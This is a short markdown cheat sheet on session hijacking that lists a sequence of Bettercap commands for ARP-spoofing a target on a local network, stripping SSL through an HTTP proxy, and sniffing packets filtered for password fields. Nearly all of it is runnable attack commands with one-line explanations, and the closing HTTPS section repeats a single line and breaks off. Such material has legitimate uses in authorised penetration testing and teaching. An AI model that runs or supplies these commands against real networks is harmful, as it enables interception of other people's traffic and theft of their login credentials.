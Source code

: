 ## Session hijacking cheat sheet


### Bettercap

#### Using Bettercap to collects all http logins used by routers, servers, and websites that do not have SSL enabled

```sh
bettercap -iface eth0
```
-iface: Specifies the interface to bind to.


```sh
net.probe on
```
This module will send different types of probe packets to each IP in the current subnet for the net.recon module to detect them.


```sh
net.recon on
```
The net.recon module displays the detected active IP addresses in the network. In real-time, this module will start sniffing network packets.


```sh
set http.proxy.sslstrip true
```
This module enables SSL stripping.


```sh
set arp.spoof.internal true
```
This module spoofs the local connections among computers of the internal network.


```sh
set arp.spoof.targets [Target IP]
```
This module spoofs the IP address of the target host.


```sh
http.proxy on
```
This module initiates http proxy.


```sh
arp.spoof on
```
This module initiates arp spoofing.


```sh
net.sniff on
```
This module is responsible for performing sniffing on the network.


```sh
set net.sniff.regexp '.*password=.+'
```
This module will only consider the packets sent with a payload matching the given regular expression (in this case, ‘.*password=.+’).


#### Using Bettercap to sniff network traffic from https-based websites


```sh
set http.proxy.sslstrip true
```


[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`
